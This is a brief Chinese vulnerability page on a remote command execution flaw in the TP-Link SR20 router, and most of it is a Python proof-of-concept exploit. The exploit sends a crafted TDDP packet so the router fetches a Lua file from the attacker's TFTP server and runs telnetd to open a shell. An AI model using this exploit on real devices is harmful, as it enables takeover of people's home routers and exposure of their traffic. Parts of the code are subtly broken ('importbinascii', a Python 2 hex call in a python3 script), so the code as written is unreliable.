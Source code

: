 # TP-Link SR20 远程命令执行

## 漏洞描述

据外媒报道，著名安全专家、Google 安全工程师Matthew Garrett公开了TP-LINK SR20智能家居路由器一个“允许来自本地网络连接的任意命令执行”的漏洞。攻击者可通过该漏洞控制用户路由器，借此执行任意命令，危及用户隐私安全。

## 漏洞影响

> [!NOTE]
>
> TP-Link SR20

## 漏洞原理POC

```python
#!/usr/bin/python3
# Create /testfile in your tftp root directory with the followingcontents:
#function config_test(config)
# os.execute("telnetd -l/bin/login.sh")
#end
# Replace 192.168.0.1 with the IP address of the vulnerable device
importbinascii
importsocket
port_send = 1040
port_receive = 61000
tddp_ver = "01"
tddp_command = "31"
tddp_req = "01"
tddp_reply = "00"
tddp_padding = "%0.16X"% 00
tddp_packet = "".join([tddp_ver, tddp_command, tddp_req,tddp_reply, tddp_padding])
sock_receive = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock_receive.bind(( '', port_receive))

# Send a request
sock_send = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
packet = binascii.unhexlify(tddp_packet)
packet = packet + b"/testfile;arbitrary"
print(packet)
sock_send.sendto(packet, ( "192.168.0.1", port_send))
sock_send.close()
response, addr = sock_receive.recvfrom( 1024)
r = response.encode( 'hex')
print(r)
```

